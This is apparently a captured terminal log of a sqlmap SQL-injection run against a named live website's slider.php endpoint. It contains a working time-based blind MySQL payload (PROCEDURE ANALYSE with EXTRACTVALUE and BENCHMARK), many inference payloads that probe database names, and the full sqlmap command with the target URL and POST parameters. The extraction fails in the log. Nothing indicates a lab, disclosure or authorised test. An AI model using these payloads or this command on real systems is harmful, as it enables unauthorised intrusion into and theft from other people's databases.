     Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
    Vector: PROCEDURE ANALYSE(EXTRACTVALUE([RANDNUM],CONCAT('\',(IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])))),1)
---
[16:28:32] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[16:28:32] [INFO] fetching database names
[16:28:32] [INFO] fetching number of databases
[16:28:32] [PAYLOAD] 13 PROCEDURE ANALYSE(EXTRACTVALUE(7217,CONCAT(0x5c,(IF((ORD(MID((SELECT COUNT(DISTINCT(schema_name)) FROM INFORMATION_SCHEMA.SCHEMATA),1,1))>51),BENCHMARK(5000000,MD5(0x45506e79)),7217)))),1)
[16:28:32] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[16:28:40] [PAYLOAD] 13 PROCEDURE ANALYSE(EXTRACTVALUE(7217,CONCAT(0x5c,(IF((ORD(MID((SELECT COUNT(DISTINCT(schema_name)) FROM INFORMATION_SCHEMA.SCHEMATA),1,1))>48),BENCHMARK(5000000,MD5(0x45506e79)),7217)))),1)
[16:28:40] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[16:28:41] [PAYLOAD] 13 PROCEDURE ANALYSE(EXTRACTVALUE(7217,CONCAT(0x5c,(IF((ORD(MID((SELECT COUNT(DISTINCT(schema_name)) FROM INFORMATION_SCHEMA.SCHEMATA),1,1))>9),BENCHMARK(5000000,MD5(0x45506e79)),7217)))),1)
[16:28:41] [INFO] retrieved: 
[16:28:41] [DEBUG] performed 3 queries in 8.35 seconds
[16:28:41] [ERROR] unable to retrieve the number of databases
[16:28:41] [INFO] falling back to current database
[16:28:41] [INFO] fetching current database
[16:28:41] [PAYLOAD] 13 PROCEDURE ANALYSE(EXTRACTVALUE(4834,CONCAT(0x5c,(IF((ORD(MID((DATABASE()),1,1))>64),BENCHMARK(5000000,MD5(0x53746469)),4834)))),1)
[16:28:41] [PAYLOAD] 13 PROCEDURE ANALYSE(EXTRACTVALUE(4834,CONCAT(0x5c,(IF((ORD(MID((DATABASE()),1,1))>32),BENCHMARK(5000000,MD5(0x53746469)),4834)))),1)
[16:28:41] [PAYLOAD] 13 PROCEDURE ANALYSE(EXTRACTVALUE(4834,CONCAT(0x5c,(IF((ORD(MID((DATABASE()),1,1))>1),BENCHMARK(5000000,MD5(0x53746469)),4834)))),1)
[16:28:42] [INFO] retrieved: 
[16:28:42] [DEBUG] performed 3 queries in 0.77 seconds
[16:28:42] [CRITICAL] unable to retrieve the database names
[16:28:42] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 1 times
[16:28:42] [DEBUG] too many 4xx and/or 5xx HTTP error codes could mean that some kind of protection is involved (e.g. WAF)

[*] shutting down at 16:28:42

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --dbs --no-cast --tamper
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org
